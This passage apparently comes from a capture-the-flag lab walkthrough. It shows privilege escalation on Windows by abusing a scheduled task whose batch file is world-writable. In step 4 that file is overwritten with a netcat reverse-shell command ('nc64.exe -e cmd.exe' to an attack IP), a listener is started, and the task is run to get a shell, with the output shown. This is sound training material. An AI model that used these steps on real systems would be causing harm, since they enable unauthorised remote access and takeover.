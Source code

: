 3. `icacls <BINARY FILE PATH>` from the compromised Windows machine to view the DACLs (Discretionary Access Control Lists) for our target task's "Task To Run" executable, which revealed that the BUILTIN\Users group has I (`Inheritable Permissions`) and F (`Full Access`) permissions to this file
```PowerShell
C:\Users\thm-unpriv>icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat BUILTIN\Users:(I)(F)
                     NT AUTHORITY\SYSTEM:(I)(F)
                     BUILTIN\Administrators:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```

4. `echo <NETCAT EXECUTABLE PATH> -e cmd.exe <ATTACK MACHINE IP> <PORT NUMBER> > <BINARY FILE PATH>` to append a netcat command that will connect back to a reverse shell listener that we'll set up on our Linux attack machine, to the target task's "Task To Run" executable
```PowerShell
C:\Users\thm-unpriv>echo c:\tools\nc64.exe -e cmd.exe 10.10.161.55 9999 > C:\tasks\schtask.bat
```

5. `nc -lvnp <PORT NUMBER` from our Linux attack machine, we'll open up a netcat listener that'll listen for any inbound connection
```Bash
root@ip-10-10-161-55:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```

6. `schtasks /run /tn <TASK NAME>` from the compromised Windows machine to run our target task, which should end up executing the netcat command that we appended onto the task's executable file and spawning a reverse shell that connects back to our netcat listener that we had previously set up on our Linux attack machine
```PowerShell
C:\Users\thm-unpriv>schtasks /run /tn vulntask
SUCCESS: Attempted to run the scheduled task "vulntask".
```
```Bash
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.193.168 49866 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

7. `cd <ROOT DIRECTORY` from our reverse shell to change to the compromised Windows machine's root directory, from where we'll look for the text file containing this task's flag
```PowerShell
C:\Windows\system32>cd C:\
cd C:\
```

8. `dir /s <FILENAME>` from our reverse shell to recursively search for the text file containing this task's flag
```PowerShell
C:\>dir /s flag.txt
dir /s flag.txt
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\taskusr1\Desktop

05/03/2022  01:00 PM                19 flag.txt
               1 File(s)             19 bytes

     Total Files Listed:
               1 File(s)             19 bytes
               0 Dir(s)  15,037,288,448 bytes free
```
